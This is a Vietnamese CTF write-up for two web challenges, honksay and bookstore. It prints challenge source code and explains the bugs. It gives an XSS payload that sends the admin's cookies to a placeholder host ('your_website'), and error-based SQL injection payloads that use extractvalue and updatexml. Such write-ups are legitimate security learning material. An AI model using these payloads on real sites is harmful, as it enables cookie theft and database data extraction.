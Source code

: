 # honksay
![Picture](https://user-images.githubusercontent.com/87886468/187146364-be5d4596-96fc-4bf2-bbcb-cd9107c532e5.png)
### Kiểm tra chức năng web
Bắt đầu challenge, ta thấy trang web chỉ có 1 chỗ để đưa input vào, tiến hành xem source code web thì không có thuộc tính nào là hidden,ta nhập các dữ liệu bất kì cũng như payload xss thì đều sẽ được redirect tới /report. Ta dùng burpsuite để bắt request ta sẽ thấy body request là url=<your_input> .Ta tiến hành kiểm tra cookie thì thấy có 2 cookie là honk và honkCount tiến hành chỉnh sửa thì ta thấy cookie từ honk sẽ được sanitize xss còn honkCount thì không.

### Đọc source code
goose.js
```javascript
const puppeteer = require('puppeteer');
const FLAG = process.env.FLAG || "maple{fake}";

async function visit(url) {
  let browser, page;
  return new Promise(async (resolve, reject) => {
    try {
      browser = await puppeteer.launch({
        headless: true,
        args: [
          '--no-sandbox',
          '--disable-default-apps',
          '--disable-dev-shm-usage',
          '--disable-extensions',
          '--disable-gpu',
          '--disable-sync',
          '--disable-translate',
          '--hide-scrollbars',
          '--metrics-recording-only',
          '--mute-audio',
          '--no-first-run',
          '--safebrowsing-disable-auto-update'
                ]
            });
        page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
        console.log(page.cookies());
        await new Promise(resolve => setTimeout(resolve, 500));
        console.log("admin is visiting url:");
        console.log(url);
        await page.close();
        
        console.log("admin visited url");
        page = null;
    } catch (err){
        console.log(err);
    } finally {
        if (page) await page.close();
        console.log("page closed");
        if (browser) await browser.close();
        console.log("browser closed");
        //no rejectz
        resolve();
        console.log("resolved");
    }
  });
};


module.exports = { visit }
```
Ta sẽ hiểu hàm visit() sẽ nhận tham số là url, sau đấy sẽ tiến hành truy cập vào url nếu domain là localhost thì cookie flag sẽ được set. 
```javascript
page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
```
Đọc app.js

Ta thấy thêm 1 subdirectory là /changehonk và URL parameter là newhonk
```javascript
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
```
Khi truy cập http://honksay.ctf.maplebacon.org/ thì sẽ tiến hành kiểm tra xem client đã có cookie hay chưa, nếu chưa sẽ set cookie mặc định cho client, còn nếu đã có sẽ tiến hành kiểm tra nếu cookie là object thì sẽ set finalhonk là cookie, nếu không phải object thì sẽ tiến hành santize xss cookie và set value cho message và amountoftimeshonked.
```javascript
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
    } else {
        const initialhonk = 'HONK';
        res.cookie('honk', initialhonk, {
            httpOnly: true
        });
        res.cookie('honkcount', 0, {
            httpOnly: true
        });
        res.redirect('/');
    }
});
```
Ta đã thấy lỗ hỏng để ta có thể lấy flag 
```javascript
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
```
Ta sẽ làm cho cookie honk thành object và gán 1 trong 2 key với value là payload XSS, khi được render XSS sẽ xảy ra.

#### Payload
http://localhost:9988/changehonk?newhonk[message]=%3Cscript%3Evar%20i%20%20%3D%20new%20Image%28%29%3B%20i.src%20%3D%20%22https%3A%2F%2Fyour_website%3Fflag%3D%22%20%2B%20document.cookie%20%3C%2Fscript%3E

Hoặc
 
http://localhost:9988/changehonk?newhonk[amountoftimeshonked]=3Cscript%3Evar%20i%20%20%3D%20new%20Image%28%29%3B%20i.src%20%3D%20%22https%3A%2F%2Fyour_website%3Fflag%3D%22%20%2B%20document.cookie%20%3C%2Fscript%3E

#### Giải thích 
Hàm visit() sẽ truy cập vào url, nên ta sẽ cho truy cập vào localhost:9988 để flag cookie được set, khi ta truy cập vào /changehonk thì cookie honk  sẽ được set honk = req.query.newhonk, sau đấy sẽ redirect về /, sau khi redirect về /, sẽ tiến hành kiểm tra liệu cookie honk có phải là object, vì ta muốn bypass filter XSS nên ta sẽ cho cookie honk thành object, cookie honk sẽ được render và XSS sẽ xảy ra và gửi request tới server của ta với cookie. 

# bookstore
Challenge cho ta các source nên ta sẽ tiến hành xem qua các file.

Bắt đầu là file validator.js, ta thấy function validateEmail() sẽ dùng isEmail của thư viện validator. Ta tiến hành tìm source code của validator trên google và ta sẽ có code của  [isEmail](https://github.com/validatorjs/validator.js/blob/86a07ba4f3f710f639e92a62cf81dd3321ef9ee8/src/lib/isEmail.js) Tiến hành đọc qua code thì ta sẽ thấy 
```javascript
  if (user[0] === '"') {
    user = user.slice(1, user.length - 1);
    return options.allow_utf8_local_part ?
      quotedEmailUserUtf8.test(user) :
      quotedEmailUser.test(user);
  }
```
Xét email format: user@domain

isEmail sẽ xét phần user nếu user bắt đầu bằng " thì nó sẽ hiểu rằng chuỗi có dạng "something" sau đấy sẽ chuyển thành something, ta được dùng các kí tự có char code từ 13 đến 127 trong ASCII. Hàm validateEmail() sẽ thực thi khi ta tiến hành đăng ký email với option kindle, nên ta sẽ nhìn qua source code:
```javascript
 insertEmail(email, book_id) {
        const query = `INSERT INTO requests(email, book_id) VALUES('${email}', '${book_id}');`;
        return new Promise((resolve, reject) => {
            this.db.query(query, (error) => {
                if (error != null) {
                    reject(error);
                } else {
                    resolve(null);
                }
            })
        })
    }
```
Tại đây ta có ý tưởng sẽ kết thúc câu lệnh insert và chạy câu lệnh update cho title sẽ mang giá trị của texts để ta lấy flag, nhưng vì hàm isEmail giới hạn số kí tự, nên ta sẽ tìm cách khác, ta thấy rằng khi có lỗi xảy ra sẽ được hiển thị => Error Based Injection, tại đây ta có thể dùng updatexml hoặc là extractxml để tiến hành:
### Payload:
"',extractvalue(1,concat(1,(SELECT texts from books limit 1))))#@gmail.com

"',updatexml(1,concat(1,(SELECT texts from books limit 1)),1))#@gmail.com
### Thêm
Vì sao ta phải concat 1 với (SELECT texts from books limit 1) ? Vì ở đây ta đang lợi dụng updatexml hoặc extractvalue sẽ hiển thị ra lỗi với các thông tin mà ta muốn. Và để hiển thị ra lỗi thì tất nhiên ta phải làm cho nó xuất hiện lỗi, và lỗi ở đây chính là lỗi ngữ pháp (xpath grammar mistakes). Vì vậy ta nên concat với 1 hoặc các kí tự không thuộc grammar xpath để có thể láy flag đầy đủ .
